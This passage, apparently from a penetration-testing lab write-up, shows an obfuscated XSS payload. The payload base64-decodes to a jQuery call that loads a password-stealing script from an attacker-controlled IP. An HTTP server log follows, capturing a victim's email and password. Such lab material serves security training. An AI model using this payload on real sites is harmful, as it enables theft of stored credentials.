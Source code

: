 ```javascript
```
{% endcode %}

{% code overflow="wrap" %}
```javascript
// the XSS payload
'+btoa(eval(atob("alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguNDUuMjE0L3hzc1NhdmVkUGFzc3dvcmRzLmpzJyk=" )))+'
```
{% endcode %}

{% code overflow="wrap" %}
```bash
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.228.101 - - [07/Aug/2024 14:19:51] "GET /xssSavedPasswords.js?_=1723036791071 HTTP/1.1" 200 -
192.168.228.101 - - [07/Aug/2024 14:19:56] code 404, message File not found
192.168.228.101 - - [07/Aug/2024 14:19:56] "GET /k?u=AmandaGomesCarvalho@offsec.com&p=ALERT!how<SNIP>? HTTP/1.1" 404 
```
{% endcode %}
